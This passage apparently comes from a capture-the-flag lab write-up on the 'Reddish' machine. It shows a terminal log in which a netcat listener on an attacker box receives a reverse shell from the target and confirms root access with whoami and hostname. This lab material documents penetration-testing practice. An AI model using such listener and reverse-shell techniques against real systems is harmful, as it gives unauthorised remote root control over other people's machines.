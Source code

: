 Got Shell as root@reddish

```bash
root@kali:~/boxes/reddish# nc -lnvp 1010
listening on [any] 1010 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.94] 42474
bash: cannot set terminal process group (29665): Inappropriate ioctl for device
bash: no job control in this shell
root@reddish:~# whoami;hostname
whoami;hostname
root
reddish
root@reddish:~#
```

We Own the Box!